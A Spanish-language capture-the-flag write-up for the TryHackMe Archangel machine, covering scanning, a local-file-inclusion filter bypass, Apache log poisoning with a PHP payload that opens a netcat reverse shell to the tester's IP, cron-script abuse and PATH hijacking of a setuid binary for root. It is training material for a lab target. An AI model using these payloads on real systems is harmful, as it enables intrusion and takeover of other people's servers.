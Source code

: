 ```yaml
---
title:  CTF TryHackme Archangel
tags:
  - Boot2root
  - Web exploitation
  - Privilege escalation
  - LFI
  - Tryhackme
  - Linux

images:
  - https://images.unsplash.com/photo-1421789665209-c9b2a435e3dc?ixlib=rb-0.3.5&ixid=eyJhcHBfaWQiOjEyMDd9&s=5b1016b885e7438c4633109d77368d4d&auto=format&fit=crop&w=1651&q=80
  - https://images.unsplash.com/photo-1504626835342-6b01071d182e?ixlib=rb-0.3.5&ixid=eyJhcHBfaWQiOjEyMDd9&s=975855d515c9d56352ee3bfe74287f2b&auto=format&fit=crop&w=1651&q=80
  - https://images.unsplash.com/photo-1476514525535-07fb3b4ae5f1?ixlib=rb-0.3.5&ixid=eyJhcHBfaWQiOjEyMDd9&s=468a8c18f5d811cf03c654b653b5089e&auto=format&fit=crop&w=1650&q=80
  - https://images.unsplash.com/photo-1506291318501-948562d765d7?ixlib=rb-0.3.5&ixid=eyJhcHBfaWQiOjEyMDd9&s=71ad8e3b7b4bd210182ed5e5c024903b&auto=format&fit=crop&w=1650&q=80
  - https://images.unsplash.com/photo-1500402448245-d49c5229c564?ixlib=rb-0.3.5&ixid=eyJhcHBfaWQiOjEyMDd9&s=f19c590b253f803a7f9b643c59017160&auto=format&fit=crop&w=1650&q=80
---
```


<div class="card mb-3">
    <center>
            <img class="card-img-top" src="/theme/img/THM/Archangel/titulo_archangel.jpeg"/>
    </center>
</div>

Máquina: Linux

IP: 10.10.25.190

<!--more-->

## Get a shell

Se realiza un reconocimiento para ver qué puertos tiene abiertos la máquina usando **nmap**:

```bash
nmap -p- 10.10.25.190
```

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/nmap_archangel.png"/>
</div>

La máquina tiene abiertos los puertos: **22/tcp (ssh)** y **80/tcp (http)**. Se analiza el contenido de la página web:

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/web.png"/>
</div>

Se realiza un escaneo con **gobuster** en busca de directorios ocultos en la web, pero nada interesante. Analizando la página se encuentra el nombre de dominio de la página support@**mafialive.thm**, por lo que se asocia este dominio con la IP en el fichero /etc/hosts:

```bash
10.10.25.190 mafialive.thm
```

El Virtual Hosting es un método para hostear múltiples nombres de dominio en un solo servidor, en este caso, esa IP.

Se procede a buscar mafialive.thm en el navegador para ver que esta hosteando y se encuentra la primera flag.

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/flag1.png"/>
</div>

Se vuelve a escanear con **gobuster** sobre el dominio mafialive.thm:

```bash
gobuster -u http://mafialive.thm -w /usr/share/wordlist/SecLists/Discovery/Web-Content/common.txt
```

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/dirbuster.png"/>
</div>

Se observa que tiene activado el fichero robots.txt y se accede a ese fichero para ver que directorios/ficheros ocultos puede nombrar:

User-agent: *

Disallow: /test.php

Se accede al contenido y es una página que tiene un botón que al pulsarlo realiza una petición GET sobre el parámetro view y el fichero **/var/www/html/development_testing/mrrobot.php** que muestra el texto "Control is an illusion".

Si intentamos cambiar el fichero por /etc/passwd, nos indica que no está permitido.

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/lfi.png"/>
</div>

Parece ser que hace algún tipo de comprobación para que no nos muestre cualquier fichero del sistema. Usando un wrapper PHP se puede obtener el código PHP del fichero test.php y saber que tipo de comprobación realiza.

`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`

Se nos mostrará el código en base64, se descodifica:

```php
<?php
    
    //FLAG: thm{explo1t1ng_lf1}
   function containsStr($str, $substr) {
       return strpos($str, $substr) !== false;
   }
   if(isset($_GET["view"])){
       if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
           include $_GET['view'];
       }else{
           echo 'Sorry, Thats not allowed';
       }
   }
?>
```

Se observa en el código que el parametro view no puede contener **../..** y tiene que tener **/var/www/html/development_testing**. El problema es que no se puede retroceder entre directorios usando ../... En cambio si se utiliza el punto (.) como directorio actual para que no contenga el string ".." dos veces seguido, podemos movernos entre directorios de la siguiente manera.

`/var/www/html/development_testing/.././.././.././../etc/passwd` 

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/passwd.png"/>
</div>

Si tenemos acceso a los logs de SSH o Apache, se puede realizar un envenenamiento de logs pudiendo ejecutar un RCE. En este caso, se tiene acceso al fichero **/var/log/apache2/access.log**. Para obtener una shell, se realiza una petición HTTP contra la página y dentro del atributo User-Agent se inyecta código PHP que se ejecute al refrescar la página.

```bash
curl -S -H "User-agent: Mozilla/5.0 <?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 10.11.22.147 4444 >/tmp/f'); ?>" http://mafialive.thm/test.php
```

Si se refresca la página **/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log**, se genera una conexión reversa contra nuestra IP.

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/netcat.png"/>
</div>

En la carpeta /home/archangel, se encuentra la flag user.txt.

## Root the machine

Se inspecciona el sistema por varias carpetas y se encuentra en /opt un fichero **helloworld.sh** con los permisos 777 y creado por archangel. Un vector de elevación de privilegios o movimientos laterales es mediante el uso de crontab, se puede ver que ficheros se ejecutan, a que hora y con qué usuario en **/etc/crontab**.

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/crontab.png"/>
</div>

Se ve que el usuario archangel ejecuta /opt/helloworld.sh cada minuto. Como se tiene permisos sobre dicho fichero, lo editamos para que nos cree una shell reversa.

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/backupfiles.png"/>
</div>

Se consigue el acceso al usuario archangel y ver la siguiente flag.

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/netcat2.png"/>
</div>


Se busca si algún fichero tiene el setuid activado para elevar privilegios como root, y se observa que el binario **/home/archangel/secret/backup** tiene el setuid activado.

Se analiza con strings, y se llega a la conclusión que ejecuta **system("cp /home/user/archangel/myfiles/* /opt/backupfiles")**. Como ejecuta el comando cp con system, quiere decir que ejecuta el binario cp del sistema Unix, por lo que se puede crear un **nuevo binario cp en /tmp** y añadir la carpeta /tmp a la variable de entorno $PATH. El contenido del nuevo binario cp es:

```bash
#!/bin/bash

bash -p
```

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/path.png"/>
</div>

Se ejecuta nuevamente el fichero backup mediante crontab y se obtiene una shell como root.

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/rootflag.png"/>
</div>